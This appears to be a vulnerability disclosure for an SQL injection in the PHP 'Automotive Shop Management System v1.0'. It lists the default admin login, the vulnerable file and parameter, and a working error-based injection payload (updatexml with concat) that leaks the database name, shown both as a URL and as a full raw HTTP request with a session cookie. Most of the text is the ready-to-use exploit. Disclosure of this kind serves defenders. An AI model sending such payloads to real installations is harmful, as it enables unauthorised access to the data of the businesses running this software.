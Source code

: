 # Automotive Shop Management System v1.0 by oretnom23 has SQL injection

BUG_Author: huchengrong

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /asms/admin/mechanics/view_mechanic.php?id=

Vulnerability location: /asms/admin/mechanics/view_mechanic.php?id=, id

dbname =asms_db,length=7

[+] Payload: /asms/admin/mechanics/view_mechanic.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /asms/admin/mechanics/view_mechanic.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0bfse7548hblm5lblclp48r057; dou_member_id=1; dou_member_code=3a2d7d2301afce4cf127
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/198028776-aa68df96-eb4a-411a-af83-53a2e6897929.png)
